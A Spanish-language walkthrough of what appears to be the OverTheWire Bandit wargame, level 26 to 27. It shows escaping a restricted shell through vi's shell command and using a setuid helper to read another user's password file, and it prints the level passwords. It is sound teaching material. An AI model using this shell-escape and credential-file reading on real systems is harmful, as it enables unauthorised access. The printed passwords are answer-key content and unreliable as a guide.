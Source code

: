 # Level 27

## Objetivos
Good job getting a shell! Now hurry and grab the password for bandit27!

## Datos de acceso 
bandit26 <-UserName
c7GvcKlw9mC7aUQaPx7nwFstuAIBw1o1 <-Password
## Solución 
```bash
en modo edicion vi
:set shell=/bin/bash
:shell
bandit26@bandit:~$ ls
bandit27-do  text.txt
bandit26@bandit:~$  ./bandit27-do cat /etc/bandit_pass/bandit27
YnQpBuifNMas1hcUFk70ZmqkhUU2EuaS
bandit26@bandit:~$
```

## Notas dicionales 
En modo edicion: ponemos la ventana de lo largo lo más angosta posible y que nos permita ver, 
nos logeamos, de esta forma no se cerrará. enseguida tecleamos "V" después ":" (dos puntos) ahí  entramos en modo edicion escribimos el comando ": set shell=/bin/bash" enter y volvemos escribimos "shell". ahora si, estamos dentro de bandit 26. y solo resta efectuar los comandos "./bandit27-do cat /etc/bandit_pass/bandit27"